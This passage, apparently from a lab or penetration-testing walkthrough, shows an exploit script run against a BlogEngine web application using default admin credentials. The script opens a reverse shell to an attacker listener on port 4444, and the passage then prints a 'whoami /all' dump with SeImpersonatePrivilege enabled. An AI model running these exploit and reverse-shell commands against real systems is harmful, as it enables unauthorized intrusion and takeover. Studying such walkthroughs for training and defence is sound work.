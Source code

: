 ```console
└─# python3 47010.py -t 10.0.88.33:2390/BlogEngine -u admin -p admin -l kali.vx:4444
```

Verify that the reverse shell has hooked on from the listener console:

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.33] 49794
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
whoami /all
c:\windows\system32\inetsrv>whoami /all
USER INFORMATION
----------------
User Name                  SID
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
GROUP INFORMATION
-----------------
Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
